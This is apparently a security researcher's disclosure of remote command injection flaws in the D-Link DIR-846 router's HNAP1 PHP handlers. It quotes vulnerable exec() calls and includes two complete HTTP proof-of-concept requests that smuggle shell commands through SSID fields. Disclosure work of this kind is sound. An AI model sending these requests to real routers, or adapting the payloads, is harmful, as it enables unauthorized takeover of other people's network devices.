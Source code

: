### info of vulnerability
There are remote RCE vulnerabilities in D-Link router due to invalid sanitization so attackers could execute arbitrary code. 

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-846(100A35)

### trigger point
#### First
The first vulnerable code is in file /squashfs-root/www/HNAP1/control/SetMasterWLanSettings.php.
```php
          ......
11        $data["ssid0"] = trim($option["wl(1).(0)_ssid"]);
          .....
14        $data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
          ......
70        $unicode_2 = $data["ssid1"];
71        exec("ssid_code set B2 2 ssid_tmp1 '" . $unicode_2 . "'");
72        $unicode_5 = $data["ssid0"];
73        exec("ssid_code set B5 0 ssid_tmp2 '" . $unicode_5 . "'", $str, $status2);
          ......
```
In page \/Wireless.html ,attacker could inject evil command into `exec` function, so PoC1 is:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetMasterWLanSettings":{"wl(0).(0)_enable":"1","wl(0).(0)_ssid":"2.4'&&ifconfig>'/www/a.txt","wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=","wl(0).(0)_crypto":"aestkip","wl(1).(0)_enable":"0","wl(1).(0)_ssid":"5.0","wl(1).(0)_preshared_key":"aXJrZXJPZ2c=","wl(1).(0)_crypto":"none"}}
```
After this request,you can see the results from `ifconfig` in a.txt
![a.txt](https://github.com/dahua966/Routers-vuls/blob/master/DIR-846/a.jpg)

#### Second
The second vulnerable code is in file /squashfs-root/www/HNAP1/control/ SetWizardConfig.php.
```php
           ......
130        $data["ssid0"] = trim($option["wl(1).(0)_ssid"]);
           ......
134        $data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
           ......
185        $unicode_2 = $data["ssid1"];
186        exec("ssid_code set B2 2 ssid_tmp1 $unicode_2");
187        $unicode_5 = $data["ssid0"];
188        exec("ssid_code set B5 0 ssid_tmp2 $unicode_5");
           ......
```
Attacker could also inject evil command into `exec` function easily, so PoC2 is:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetWizardConfig":{"wl(1).(0)_ssid":"aaa&&touch /www/a.txt","wl(0).(0)_ssid":"aaa&&touch /www/a.txt"}}
```
#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：

Wei Xie

Zhen-hua Wang

En-Ze Wang